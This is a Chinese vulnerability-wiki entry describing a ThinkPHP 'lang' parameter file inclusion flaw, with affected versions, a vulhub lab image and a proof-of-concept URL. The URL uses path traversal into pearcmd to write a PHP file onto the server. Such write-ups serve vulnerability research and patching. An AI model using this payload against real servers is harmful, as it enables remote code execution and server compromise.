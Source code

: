 # ThinkPHP LoadLangPack lang 任意文件包含漏洞

## 漏洞描述

当Thinkphp 程序开启了多语言功能时，可以通过 get、header、cookie 等位置传入参数，使用 pearcmd 文件包含达到命令执行，获取服务器权限

## 漏洞影响

<a-checkbox checked>Thinkphp，v6.0.1~v6.0.13，v5.0.x，v5.1.x</a-checkbox></br>

## 环境搭建

<a-checkbox checked>docker pull vulhub/thinkphp:6.0.12</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1671154096412-bb0dedfd-eb08-4b0c-af16-60a54db8a17d.png)

验证POC

```php
/public/index.php?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+shell.php
```

![img](../../../.vuepress/public/img/1671154607827-3548f528-c745-4ed1-994a-8aee9850ddee.png)![img](/assets/PeiQi-Wiki/img/1671154706972-596ab1d0-26ce-428b-a54b-b94ddaf4e8ef.png)